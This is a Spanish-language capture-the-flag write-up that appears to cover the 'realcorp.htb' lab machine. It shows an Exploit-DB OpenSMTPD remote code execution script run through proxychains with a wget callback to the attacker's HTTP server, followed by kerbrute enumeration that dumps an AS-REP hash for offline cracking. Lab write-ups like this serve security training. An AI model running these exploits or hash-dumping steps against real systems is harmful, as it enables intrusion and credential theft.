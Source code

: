 ```
Exploit: OpenSMTPD 6.6.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47984
     Path: /opt/exploitdb/exploits/linux/remote/47984.py
File Type: Python script, ASCII text executable
```

```console
mv 47984.py ../exploits/smtpd_exploit.py
```

realizamos un intento de conexión poniendonos en escucha en el puerto 80 y solicitando una pagina web, pero no hay conexión

```console
proxychains python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.3'
```

```
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.224:3128-<>-127.0.0.1:3128-<>-10.197.243.77:3128-<><>-10.241.251.113:25-<><>-OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```console
sudo python3 -m http.server 80
```

```
[sudo] password for mzapata: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

con *kerbrute* vemos si el usuario que vimos en la pagina 10.10.10.224:3128 existe y efectivamente vemos que el usuario existe.

```console
kerbrute userenum --dc 10.10.10.224 -d realcorp.htb users
```

```
__             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 08/29/22 - Ronnie Flathers @ropnop

2022/08/29 16:25:43 >  Using KDC(s):
2022/08/29 16:25:43 >  	10.10.10.224:88

2022/08/29 16:25:43 >  [+] j.nakazawa has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$j.nakazawa@REALCORP.HTB:76175717fd5b45901dc8c60f4795e425$315e424e08b4fa9d139eb67af25ad4d82344b376ce1d0ef6b5d6f074754032ee99334566e511f13b4eb103846bbb9e18418ad0e29c33cc9de395eac5031f664f90e6b6affc80ba367c28340f6b969a876d7046d5937be6dfd26d69fecacf760a7e6e45bcc1c112e3af45c1601e73cb272d183b677daa821a13044c43092216ff2cb6bf792cfee6fc57b02e8fb7133fa4d628715da54f9f7246cd8e46cc35777bf5d93a997dad8d8b5da3aab11bf096c4e0b7342f977fb1c9cee7e9a9f27fb2dc682f2a8a44a0f8
2022/08/29 16:25:43 >  [+] VALID USERNAME:	 j.nakazawa@realcorp.htb
2022/08/29 16:25:43 >  Done! Tested 1 usernames (1 valid) in 0.138 seconds
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>